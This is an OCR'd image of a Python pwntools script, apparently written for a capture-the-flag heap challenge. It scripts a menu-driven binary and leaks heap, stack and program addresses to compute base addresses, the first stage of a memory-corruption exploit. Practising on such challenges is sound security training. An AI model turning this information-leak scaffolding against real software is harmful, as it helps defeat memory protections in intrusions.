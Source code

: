 ```py
#libc = ELF('/home/leeya_bug/桌面/glibc-all-in-one/libs/2.31-0ubuntu9.16_amd64/libc.so.6')

def debug(interact = True, query = ''):
	subprocess.Popen(["qterminal", "-e", f'''bash -c 'pwndbg -ex "set telescope-skip-repeating-val off" -ex "{query}" -p {p.pid}' '''])
	if interact: p.interactive()
	
def original_debug(interact = True):
	gdb.attach(p)
	if interact: p.interactive()
	
u64_ = lambda a: u64(a.ljust(8,b'\x00'))

# ------------- 基本配置 -------------

def add() -> None:
	p.sendlineafter(b'Choice >', b'1')

def show(index: int) -> None:
	p.sendlineafter(b'Choice >', b'2')
	p.sendlineafter(b'Index >', str(index).encode())
	p.recvuntil(b'Content:')
	return literal_eval(p.recvuntil(b']').decode())
	
def edit(index: int, memory: bytes) -> bytes:
	p.sendlineafter(b'Choice >', b'3')
	p.sendlineafter(b'Index >', str(index).encode())
	#debug(False)
	#time.sleep(5)
	p.sendlineafter(b'Content >', memory)
	p.recvuntil(b'Content: ')
	return literal_eval(p.recvuntil(b']').decode())

def delete(index: int) -> None:
	p.sendlineafter(b'Choice >', b'4')
	p.sendlineafter(b'Index >', str(index).encode())

# --------

def list2list_bytes(data: list) -> list:
	d1 = [ data[i: i + 8] for i in range(0, len(data), 8) ]
	return [ b''.join([ p8(i) for i in d2 ]) for d2 in d1 ]

def list_bytes2bytes(data: list) -> bytes:
	return b''.join(data)

def ljust_mul(s1, justnum: int, s2): return s1.ljust(justnum, b'*').replace(b'*' * len(s2), s2)

add()
data = list2list_bytes(show(0))

heap_addr = u64(data[1])
stack_addr = u64(data[4])
program_addr = u64(data[5])

program_base = program_addr - 0x635b0
bin_base = heap_addr - 0x2bb0
stdin_buf = bin_base + 0xb90
ebp_read_line = stack_addr - 0x158 + 0x30 - 0x10

print(f'program_base:            {hex(program_base)}')
print(f'bin_base:                {hex(bin_base)} ')
print(f'stack_addr:              {hex(stack_addr)} ')
```
